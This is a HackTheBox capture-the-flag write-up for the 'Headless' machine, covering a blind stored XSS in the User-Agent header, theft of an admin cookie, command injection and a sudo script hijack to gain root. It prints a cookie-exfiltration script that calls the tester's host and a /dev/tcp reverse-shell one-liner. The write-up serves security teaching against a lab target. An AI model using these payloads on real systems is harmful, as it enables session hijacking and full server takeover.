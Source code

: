 ```yaml
---
title: Headless
tags:
  - HackTheBox
  - Easy
  - Linux
  - XSS
  - Blind_XSS
  - Stored_XSS
  - Command-Injection
---
```

![](Pasted%20image%2020241113190319.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.8 headless.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- headless.htb > sC.txt

[redacted]
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp
```

So I took a look at port 5000 website:

![](Pasted%20image%2020241113190550.png)

If we click on "For questions" we arrive to some kind of form:

![](Pasted%20image%2020241113190631.png)

Let's try to inject an XSS:

![](Pasted%20image%2020241113191302.png)

So I captured the petition with Burpsuite, but had the same result in the repeater. After this, I decided to inject the XSS in the `User-Agent` header:

![](Pasted%20image%2020241113191608.png)

```js
POST /support HTTP/1.1
Host: headless.htb:5000
User-Agent: <script>alert(1)</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://headless.htb:5000
Connection: keep-alive
Referer: http://headless.htb:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Priority: u=0, i

fname=a&lname=a&email=a%40a&phone=a&message=%3Cscript%3Ealert(1)%3Cscript%3E
```

I don't get the Hacking message now and pop the alert!

![](Pasted%20image%2020241113194507.png)

I can now attempt to create a blind stored XSS to steal cookies with the following script:

```shell
<script>var i=new Image(); i.src="http://10.10.14.24:8090/?cookie="+btoa(document.cookie);</script>
```

```http
POST /support HTTP/1.1
Host: headless.htb:5000
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.24:8090/?cookie="+btoa(document.cookie);</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://headless.htb:5000
Connection: keep-alive
Referer: http://headless.htb:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Priority: u=0, i

fname=a&lname=a&email=a%40a&phone=a&message=%3Cscript%3Ealert(1)%3Cscript%3E
```

Almost inmediately I received some cookies in my python server:

```shell
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...
10.10.14.24 - - [13/Nov/2024 19:54:07] "GET /?cookie=aXNfYWRtaW49YVhOZllXUnRhVzQ5U1c1V2VscFlTV2t1ZFVGc2JWaHNWSFp0T0haNWFXaHFUbUZRUkZkdWRrSmZXbVp6 HTTP/1.1" 200 -
10.10.11.8 - - [13/Nov/2024 19:55:04] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

> *Remember that they are base64 encoded*

So I decoded them and got these cookies:

```txt
aXNfYWRtaW49SW5WelpYSWkudUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz
ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

Now I decided to perform some enumeration with [dirsearch](dirsearch.md):

```shell
dirsearch -u http://headless.htb:5000 -w ~/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -r

[redacted]
[19:50:36] 200 -    2KB - /support                                          
[19:50:49] 401 -  317B  - /dashboard
```

The `/dashboard` seems to be interesting, because initially we can't access to it. But maybe with the new cookie we actually can:

![](Pasted%20image%2020241113195803.png)

I got access to the Administration Dashboard!

I captured the petition with Burp and try to execute a Command Injection (which actually worked):

![](Pasted%20image%2020241113200048.png)

So I tried to inject a reverse shell:

![](Pasted%20image%2020241113200515.png)

> We've got a reverse shell!

![](Pasted%20image%2020241113200553.png)

![](Pasted%20image%2020241113200709.png)

## Privilege Escalation

I inspected the mail of the user `dvir` and found an interesting message:

```txt
cat /var/mail/dvir 
Subject: Important Update: New System Check Script

Hello!

We have an important update regarding our server. In response to recent compatibility and crashing issues, we've introduced a new system check script.

What's special for you?
- You've been granted special privileges to use this script.
- It will help identify and resolve system issues more efficiently.
- It ensures that necessary updates are applied when needed.

Rest assured, this script is at your disposal and won't affect your regular use of the system.

If you have any questions or notice anything unusual, please don't hesitate to reach out to us. We're here to assist you with any concerns.

By the way, we're still waiting on you to create the database initialization script!
Best regards,
Headless
```

If we run `sudo -l`:

```shell
sudo -l

[redacted]
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

I inspected the binary:

```sh
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

So basically, if we create a shell inside `initdb.sh` we will become root.

```shell
cd /dev/shm
echo "bash -i >& /dev/tcp/10.10.14.24/777 0>&1" > initdb.sh
sudo /usr/bin/syscheck
```

> We become root and got root flag!

![](Pasted%20image%2020241113201811.png)

==Machine pwned!==
